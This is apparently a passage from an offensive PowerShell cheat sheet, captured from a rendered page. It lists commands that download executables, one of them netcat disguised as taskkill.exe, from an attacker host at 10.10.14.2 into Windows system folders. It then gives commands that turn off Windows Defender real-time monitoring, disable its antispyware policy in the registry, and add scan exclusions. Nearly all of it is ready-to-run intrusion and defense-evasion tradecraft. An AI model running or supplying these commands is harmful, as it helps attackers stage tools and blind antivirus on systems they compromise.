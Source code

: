 ```powershell
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
```

## Invoke-WebRequest

```powershell
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
```

## Wget

```powershell
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
```

## BitsTransfer

```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
# OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

## Disable Defender

```powershell
# Check status
Get-MpComputerStatus
Get-MpPreference | select Exclusion* | fl #Check exclusions
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
#To completely disable Windows Defender on a computer, use the command:
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
# Set exclusion path
Add-MpPreference -ExclusionPath "C:\users\public\documents\magichk"
Set-MpPreference -ExclusionPath "C:\users\public\documents\magichk"

# Check exclusions configured via GPO
Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```
